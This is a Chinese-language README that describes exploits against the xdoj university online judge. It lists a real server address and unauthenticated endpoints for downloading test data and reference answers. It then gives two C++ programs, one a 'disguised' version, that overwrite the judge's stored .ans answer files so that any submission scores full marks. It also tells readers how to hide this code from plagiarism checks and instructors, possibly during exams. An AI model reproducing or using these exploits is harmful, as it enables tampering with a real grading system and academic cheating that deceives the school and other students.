





## 关于`xdoj`已知的一些在日常使用可以利用的漏洞

### 1. 题目数据点和答案的获取接口

>这个接口使用基本上没有风险，但是不确定考试环境是否会开放<br>
>作为一个后端开发人员，我是认为考试环境和日常环境隔离(都换服务器了)，除了考试提交和下载题目接口，其他接口应该会屏蔽掉<br>
>但是我的小伙伴直接回怼我：“你怎么能假定xdoj这么高级”

### 使用

这个接口分为两个部分，一个根路由和一个子路由

#### 根路由：

即**考试环境**或者**日常评测环境**的**登陆地址**

如这里的日常使用登陆页面地址： http://39.99.164.22/xdoj-ds



像考试的是以 `176.`开头的那一段服务器主机IPv4地址

#### 子路由

- 下载测试点：
/testcase/downloadInputFile.do?id=查询数据点编号

- 下载测试点对应标准答案
/testcase/downloadOutputFile.do?id=查询数据点编号

#### 例子
所以使用的时候就是 `根路由`+`子路由`

举个栗子：
日常环境下，查询324题的1116号数据点



测试点：


标答：


结果：


**再次强调**：虽然使用起来基本没有风险，但是**无法确保考试环境下适用**

### 2. AC自动机

>这个东西根据我们的研究，按照`xdoj`的状况，很有可能考试环境下可以使用<br>
>但是，一旦被发现，特别是没有任何掩饰的情况，这门课基本寄了

顾名思义，这是交上去，无论啥题直接可以满分的玩意儿

先上代码(基于C++)：
另外提一句：C++几乎兼容所有C代码

#### 基础版:

```C++
#include <iostream>
#include <fstream>

using namespace std;

int main()
{
    ofstream fo;
    fo.open("1.ans");
    fo << "ok" << endl;
    fo.close();

    fo.open("2.ans");
    fo << "ok" << endl;
    fo.close();

    fo.open("3.ans");
    fo << "ok" << endl;
    fo.close();

    fo.open("4.ans");
    fo << "ok" << endl;
    fo.close();

    fo.open("5.ans");
    fo << "ok" << endl;
    fo.close();

    cout << "ok" << endl;
    return 0;

}
```

#### 升级版

>这个版本稍稍掩饰且可以一键修改样例数量

```C++
#include <iostream>
#include <fstream>
#include <cstring>

using namespace std;

int main()
{
    ofstream fo;
    int n = 5, i = 1;
    char ans[] = ".ans";
    string want = "ok";
    for(i = 1;i <= n; i ++){
        char ansName[32] = {0};
        ansName[0] = '0' + i;
        strcat(ansName, ans);
        fo.open(ansName);
        fo << want << endl;
        fo.close();
    }

    
    cout << want << endl;
    
    return 0;

}
```

#### 使用说明

最好是先随便交一个代码上去，你能看到跑的结果，然后去数有几个测试用例

比如说325题有4个测试点


就把上述基本版代码的
```C++
    fo.open("5.ans");
    fo << "ok" << endl;
    fo.close();
```
这几行删掉或者注释，保留前4个即可

或者将升级版代码中的的**n**改为**4**

这里简单对原理说一下：

>xdoj的评测机制是，将后台存储的`.ans`文件和用户提交的代码输出进行对比<br>
>然后这里利用c++的流输出直接针对当前题目的`.ans`文件进行修改，使其和我们预设的答案一致

至于后效性，经过测试，**改动后不影响正确代码的提交**，也就是你的提交不影响系统的稳定，不影响他人

#### 强调

**不到万不得已，不要用！**
**不到万不得已，不要用！**
**不到万不得已，不要用！**

就算用，你也要把一些板子，比如说`dfs`遍历、链表构造、深度优先建树的模板写上去，然后偷偷摸摸地把`AC自动机`的代码加进去起作用

**因为**：

1. 根据我们的研究，xdoj是有查重接口的，而且很有可能是那种直接暴力对比代码中字符相似度的机制，所以如果不加掩饰很有可能害人害己
2. 老师后台是可以直接下载你提交的代码的，这玩意儿光秃秃交上去一下就露馅了
3. 其次，这样对自己以后面试、工作使用也没有好处，打铁还需自身硬

最后，各位复习愉快！::yum: